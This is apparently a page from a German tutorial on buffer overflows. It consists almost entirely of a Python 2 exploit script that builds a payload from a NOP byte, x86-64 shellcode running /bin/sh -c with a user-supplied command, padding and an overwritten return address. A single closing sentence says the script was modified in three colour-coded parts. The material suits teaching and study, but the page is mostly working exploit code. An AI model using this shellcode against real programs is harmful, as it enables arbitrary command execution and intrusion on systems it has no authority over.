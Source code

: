 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}
#! /usr/bin/python2
# -*- coding: utf-8 -*-
import sys

if len(sys.argv) == 3:
    adresse = sys.argv[1].decode("hex")
    adresse = adresse[::-1]

    befehl = sys.argv[2]

else:
    print("Parameter: Rücksprungadresse + Befehl")
    sys.exit(1)

<@\textcolor{red}{shellcodeTeil1}@> ="\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e" \
        + "\x2f\x73\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9" \
        + "\x51\x66\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x14" \
        + "\x5a\x52\x80\x72"
<@\textcolor{red}{shellcodeTeil2}@> = "\x41\x53\x57\x54\x5e\x48\x31\xd2\x48\x31" \
        + "\xc0\xb0\x3b\x0f\x05\xe8\xe7\xff\xff\xff"

<@\textcolor{green}{rdxWert}@> = chr(len(befehl))
<@\textcolor{green}{befehlLaenge}@> = len(befehl)

<@\textcolor{orange}{print}@>("\x90" + shellcodeTeil1 + rdxWert + shellcodeTeil2 + befehl
      + "A" * (201 - befehlLaenge) + adresse)
\end{lstlisting}
\newpage
Unser bestehendes Skript wurde grob an drei Teilen (rot, grün, orange) abgeändert:
\end{document}
